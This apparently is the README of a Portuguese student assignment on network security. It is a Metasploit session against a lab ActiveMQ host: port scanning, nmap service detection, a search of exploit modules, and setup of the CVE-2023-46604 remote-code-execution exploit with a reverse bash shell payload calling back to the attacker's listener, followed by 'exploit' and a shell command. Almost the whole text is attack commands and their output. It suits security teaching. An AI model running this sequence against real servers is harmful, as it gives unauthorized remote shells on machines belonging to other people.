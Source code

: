 # Segurança de redes 2023

Repositório onde será desenvolvido um trabalho prático sobre segurança de redes e exploit de vulnerabilidade

msfconsole

search -h

search type:auxiliary name:scan

search type:auxiliary name:port scan

<!--
  Matching Modules
  ================

    #   Name                                                            Disclosure Date  Rank    Check  Description
    -   ----                                                            ---------------  ----    -----  -----------
    0   auxiliary/scanner/acpp/login                                                     normal  No     Apple Airport ACPP Authentication Scanner
    1   auxiliary/scanner/http/cisco_firepower_download                 2016-10-10       normal  No     Cisco Firepower Management Console 6.0 Post Auth Report Download Directory Traversal
    2   auxiliary/scanner/http/cisco_ironport_enum                                       normal  No     Cisco Ironport Bruteforce Login Utility
    3   auxiliary/scanner/scada/digi_realport_serialport_scan                            normal  No     Digi RealPort Serial Server Port Scanner
    4   auxiliary/scanner/scada/digi_realport_version                                    normal  No     Digi RealPort Serial Server Version
    5   auxiliary/scanner/http/es_file_explorer_open_port               2019-01-16       normal  No     ES File Explorer Open Port
    6   auxiliary/scanner/portscan/ftpbounce                                             normal  No     FTP Bounce Port Scanner
    7   auxiliary/scanner/http/hp_imc_reportimgservlt_traversal                          normal  No     HP Intelligent Management ReportImgServlt Directory Traversal
    8   auxiliary/scanner/http/http_hsts                                                 normal  No     HTTP Strict Transport Security (HSTS) Detection
    9   auxiliary/scanner/http/infovista_enum                                            normal  No     InfoVista VistaPortal Application Bruteforce Login Utility
    10  auxiliary/scanner/http/support_center_plus_directory_traversal  2014-01-28       normal  No     ManageEngine Support Center Plus Directory Traversal
    11  auxiliary/scanner/natpmp/natpmp_portscan                                         normal  No     NAT-PMP External Port Scanner
    12  auxiliary/scanner/http/openmind_messageos_login                                  normal  No     OpenMind Message-OS Portal Login Brute Force Utility
    13  auxiliary/scanner/portmap/portmap_amp                                            normal  No     Portmapper Amplification Scanner
    14  auxiliary/scanner/sap/sap_router_portscanner                                     normal  No     SAPRouter Port Scanner
    15  auxiliary/scanner/http/squid_pivot_scanning                                      normal  No     Squid Proxy Port Scanner
    16  auxiliary/scanner/misc/sunrpc_portmapper                                         normal  No     SunRPC Portmap Program Enumerator
    17  auxiliary/scanner/http/smt_ipmi_49152_exposure                  2014-06-19       normal  No     Supermicro Onboard IPMI Port 49152 Sensitive File Exposure
    18  auxiliary/scanner/portscan/xmas                                                  normal  No     TCP "XMas" Port Scanner
    19  auxiliary/scanner/portscan/tcp                                                   normal  No     TCP Port Scanner
    20  auxiliary/scanner/portscan/syn                                                   normal  No     TCP SYN Port Scanner
-->

use auxiliary/scanner/portscan/tcp

show options

<!--
  Module options (auxiliary/scanner/portscan/tcp):

    Name         Current Setting  Required  Description
    ----         ---------------  --------  -----------
    CONCURRENCY  10               yes       The number of concurrent ports to check per host
    DELAY        0                yes       The delay between connections, per thread, in milliseconds
    JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
    PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
    RHOSTS       172.16.123.5     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
    THREADS      1                yes       The number of concurrent threads (max one per host)
    TIMEOUT      1000             yes       The socket connect timeout in milliseconds


  View the full module info with the info, or info -d command.
-->

show options

<!--
       Name: TCP Port Scanner
     Module: auxiliary/scanner/portscan/tcp
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>
  kris katterjohn <katterjohn@gmail.com>

Check supported:
  No

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  CONCURRENCY  10               yes       The number of concurrent ports to check per host
  DELAY        0                yes       The delay between connections, per thread, in milliseconds
  JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
  PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
  RHOSTS       172.16.123.5     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  THREADS      1                yes       The number of concurrent threads (max one per host)
  TIMEOUT      1000             yes       The socket connect timeout in milliseconds

Description:
  Enumerate open TCP services by performing a full TCP connect on each port.
  This does not need administrative privileges on the source machine, which
  may be useful if pivoting.


View the full module info with the info -d command.
 -->

set RHOSTS 172.16.123.5

set THREADS 4

set PORTS 1-30000

run

<!--
[+] 172.16.123.5:         - 172.16.123.5:1883 - TCP OPEN
[+] 172.16.123.5:         - 172.16.123.5:5672 - TCP OPEN
[+] 172.16.123.5:         - 172.16.123.5:8161 - TCP OPEN
[*] 172.16.123.5:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
-->

db_nmap -h

db_nmap -sV -sC -A -p 1883,5672,8161 172.16.123.5

<!--
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 01:02 UTC
[*] Nmap: Nmap scan report for activemq.subnetwork (172.16.123.5)
[*] Nmap: Host is up (0.00012s latency).
[*] Nmap: PORT     STATE SERVICE VERSION
[*] Nmap: 1883/tcp open  mqtt
[*] Nmap: | mqtt-subscribe:
[*] Nmap: |   Topics and their most recent payloads:
[*] Nmap: |     ActiveMQ/Advisory/MasterBroker:
[*] Nmap: |_    ActiveMQ/Advisory/Consumer/Topic/#:
[*] Nmap: 5672/tcp open  amqp?
[*] Nmap: |_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
[*] Nmap: | fingerprint-strings:
[*] Nmap: |   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
[*] Nmap: |     AMQP
[*] Nmap: |     AMQP
[*] Nmap: |     amqp:decode-error
[*] Nmap: |_    7Connection from client using unsupported AMQP attempted
[*] Nmap: 8161/tcp open  http    Jetty 9.4.39.v20210325
[*] Nmap: | http-auth:
[*] Nmap: | HTTP/1.1 401 Unauthorized\x0D
[*] Nmap: |_  basic realm=ActiveMQRealm
[*] Nmap: |_http-title: Error 401 Unauthorized
[*] Nmap: |_http-server-header: Jetty(9.4.39.v20210325)
[*] Nmap: 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[*] Nmap: SF-Port5672-TCP:V=7.94SVN%I=7%D=11/27%Time=6563EAB6%P=x86_64-pc-linux-gnu%
[*] Nmap: SF:r(GetRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\
[*] Nmap: SF:x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S
[*] Nmap: SF:\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x2
[*] Nmap: SF:0client\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89
[*] Nmap: SF:,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04
[*] Nmap: SF:\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0
[*] Nmap: SF:M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20usin
[*] Nmap: SF:g\x20unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\
[*] Nmap: SF:0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\
[*] Nmap: SF:0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11am
[*] Nmap: SF:qp:decode-error\xa17Connection\x20from\x20client\x20using\x20unsupporte
[*] Nmap: SF:d\x20AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\
[*] Nmap: SF:0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0
[*] Nmap: SF:`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa
[*] Nmap: SF:17Connection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attem
[*] Nmap: SF:pted")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\
[*] Nmap: SF:x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\
[*] Nmap: SF:0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Conn
[*] Nmap: SF:ection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")
[*] Nmap: SF:%r(DNSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02
[*] Nmap: SF:\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0
[*] Nmap: SF:S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\
[*] Nmap: SF:x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLS
[*] Nmap: SF:essionReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10
[*] Nmap: SF:\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x0
[*] Nmap: SF:1\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cl
[*] Nmap: SF:ient\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCoo
[*] Nmap: SF:kie,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x
[*] Nmap: SF:0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x
[*] Nmap: SF:1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x
[*] Nmap: SF:20using\x20unsupported\x20AMQP\x20attempted");
[*] Nmap: MAC Address: 02:42:AC:10:7B:05 (Unknown)
[*] Nmap: Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.8
[*] Nmap: Network Distance: 1 hop
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.12 ms activemq.subnetwork (172.16.123.5)
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 32.44 seconds
-->

search type:exploit name:activemq
<!--
Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_activemq_upload_jsp          2016-06-01       excellent  No     ActiveMQ web shell upload
   1  exploit/windows/http/apache_activemq_traversal_upload  2015-08-19       excellent  Yes    Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload
   2  exploit/multi/misc/apache_activemq_rce_cve_2023_46604  2023-10-27       excellent  Yes    Apache ActiveMQ Unauthenticated Remote Code Execution
   3  exploit/windows/browser/samsung_security_manager_put   2016-08-05       excellent  No     Samsung Security Manager 1.4 ActiveMQ Broker Service PUT Method Remote Code Execution


Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/browser/samsung_security_manager_put
 -->

search type:exploit name:amqp
<!--
Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/windows/misc/solarwinds_amqp_deserialization  2022-10-19       excellent  No     SolarWinds Information Service (SWIS) .NET Deserialization From AMQP RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/misc/solarwinds_amqp_deserialization
 -->

search type:exploit name:jetty
<!--
[-] No results from search
 -->

search type:exploit name:eclipse
<!--
Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/multi/misc/osgi_console_exec  2018-02-13       normal  Yes    Eclipse Equinox OSGi Console Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/misc/osgi_console_exec
 -->

use exploit/multi/misc/apache_activemq_rce_cve_2023_46604

<!--
Module options (exploit/windows/misc/solarwinds_amqp_deserialization):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       The password to authenticate with
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     5671             yes       The target port
   USERNAME  orion            yes       The username to authenticate with


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      LDJdkCjdQhP      no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               172.16.123.6     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
 -->

use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
<!--
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
 -->

show options

<!--
Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                       on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      TjFLxxOi         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               172.16.123.6     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.
 -->

show info

<!--
       Name: Apache ActiveMQ Unauthenticated Remote Code Execution
     Module: exploit/multi/misc/apache_activemq_rce_cve_2023_46604
   Platform: Windows, Linux, Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-10-27

Provided by:
  X1r0z
  sfewer-r7

Module side effects:
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Windows
      1   Linux
      2   Unix

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT    61616            yes       The target port (TCP)
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen o
                                      n all addresses.
  SRVPORT  8080             yes       The local port to listen on.
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)

Payload information:

Description:
  This module exploits a deserialization vulnerability in the OpenWire transport unmarshaller in Apache
  ActiveMQ. Affected versions include 5.18.0 through to 5.18.2, 5.17.0 through to 5.17.5, 5.16.0 through to
  5.16.6, and all versions before 5.15.16.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2023-46604
  https://github.com/X1r0z/ActiveMQ-RCE
  https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/
  https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis
  https://activemq.apache.org/security-advisories.data/CVE-2023-46604-announcement.txt


View the full module info with the info -d command.
 -->

set RHOSTS 172.16.123.5

set SRVPORT 1234

set TARGET Unix

show payloads

set PAYLOAD payload/cmd/unix/reverse_bash

show options

exploit

ls -la /opt/activemq | grep activemq && echo "\n finished"
